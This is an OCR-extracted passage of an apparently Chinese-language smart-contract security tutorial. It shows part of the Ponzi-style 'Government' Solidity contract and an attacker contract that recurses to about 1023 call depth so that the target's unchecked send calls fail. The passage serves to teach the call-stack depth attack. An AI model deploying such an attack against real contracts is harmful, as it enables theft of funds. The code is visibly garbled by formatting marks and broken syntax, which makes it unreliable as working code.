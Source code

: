 ```
                buddies[msg.sender] += amount * 110 / 100;**// 90% of money used to pay out old creditors **if (credAmt[lastPaid] <= address(this).balance — profitFromCrash){
                   credAddr[lastPaid].send(credAmt[lastPaid]);
                   buddies[credAddr[lastPaid]] -= credAmt[lastPaid];
                   lastPaid += 1;
                }
                return true;
            } 
            else {
                msg.sender.send(amount);
                return false;
            }
        }
    }** // fallback function **function() {
        lendGovernmentMoney(0);
    }

    function totalDebt() returns (uint debt) {
        for(uint i=lastPaid; i<credAmt.length; i++){
            debt += credAmt[i];
        }
    }** **function totalPayedOut() returns (uint payout) {
        for(uint i=0; i<lastPaid; i++){
            payout += credAmt[i];
        }
    }** // donate funds to "the government"
    **function investInTheSystem() {
        profitFromCrash += msg.value;
    }**// From time to time the corrupt elite 
    // inherits it’s power to the next generation
 **function inheritToNextGeneration(address nextGeneration) {
        if (msg.sender == corruptElite) {
            corruptElite = nextGeneration;
        }
    }** **function getCreditorAddresses() returns (address[]) {
        return credAddr;
    }

    function getCreditorAmounts() returns (uint[]) {
        return credAmt;
    }
}**
```

我们假设一个攻击者写了下面这个契约来恶意攻击`contract Government {}`。

```
**contract attackGov {** **function attackGov (address target, uint count) {

    if (0<= count && count<1023) {
        this.attackGov.gas(gasleft() - 2000)(target, count+1);
    } 
    else {
       attackGov(target).lendGovernmentMoney;** **}****}**
```
